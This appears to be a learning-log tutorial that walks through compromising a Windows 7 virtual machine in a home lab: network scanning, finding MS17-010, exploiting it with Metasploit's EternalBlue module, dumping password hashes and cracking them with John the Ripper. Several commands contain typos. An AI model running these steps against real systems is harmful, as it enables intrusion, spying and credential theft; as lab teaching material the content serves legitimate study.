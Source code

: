 # ♦ Day 12
</br>
</br>

## ◙ ***Getting into Win 7***
 </br>
 
# ♦ Getting into Win 7 : 
   ⇨ In this session we will be learning how to get into a windowsn device and can collect data or spying onto the host pc, for this we will be using a Windows professional device in our local nettwork(Virtual Machine). 
   </br>
   </br>
### ◙ Step-By-Step Guide 

### • 1. Reconnaissance : First of all we will be checking our local network if there arne any other devices connected or not (Note: for this to work in VM make sure both the devices are in same network settings preferrably "NAT Network" </br>
For scanning our local network we will be using ***arp scan*** by using following commands:

    sudo arp-scan -l -I eth1

After this we have to check which one of the device is tht we are looking for so for that we will use ***nmap*** to identify operating systems of all the devices individaually by using:

    sudo nmap -O >Ip add<

### • 2. Search For Vulnerability : Now we will be searching for the vulnerabilities of the ip we confirmed by doing nmap scans now for vulnerability searching we will be using the following command

    namp -Pn -sV --script vuln -oN vuln-win7-nmap.txt >IP add<

As we can see from above report tht there is a vulnerability availabe by the name "ms17-010".


### • 3. Now we would like to get some details on the this Vulnerability, for that we will be using ***"Searchsploit"*** :

    searchexploit ms17-010

As we acan see there are 6 exploits for this vulnerability, we will be using the one which can be done (Metasploit) cuz it most efficient and easy to do


### • 4. METASPLOIT : The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. </br>

• Now to acess metasploit we have to type a command 

    msfconsole

• After getting into msfconsole we have to search for the vulnerability ***"ms17-010"***


• Now select the 1st one with the name ***"Eternalblue"*** by using command ***"use 0"***

    use 0

### • 5. Setting up Msfconsole : 

• Now we have to set up our msfconsole by seeing all the options that wre neede to be filled by watching them carefully ***"Show options"***

    show options

now as we can see above we have to fill LPORT, LHOST, RHOSTS & RPORT by using :

    set RHOSTS >The Recivers Ip<
    set LHOST >The Linux Ip<
    set RPORT >The Reciving Port<
    set LPORT >The Listening Port<

⇨   After setting all tht we just simply have to Use ***"exploit"*** command

     exploit

• Now we have successfully gained the access of the Windows Machine, now we can use ***"help "*** command to get all the details of what can we do in the system, for example :

• screensahre : it is a command by which we can see what is going on the target device in realtime it hosts a realtime screen of the Target
  
    sharescreen
 
• hashdump : command to get all the hash of the password which the Target device is currently holding into it.
    
    hashdump
    
    
• After getting all the hash informations of the user, we have to save it and 

#### ◙ HASH ENUMERATION :
  For this we will be using a tool called John The Ripper with the command:

    john --format=NT --rules -w=/usr/share/wordlists/rockyou.txt hashfile.txt
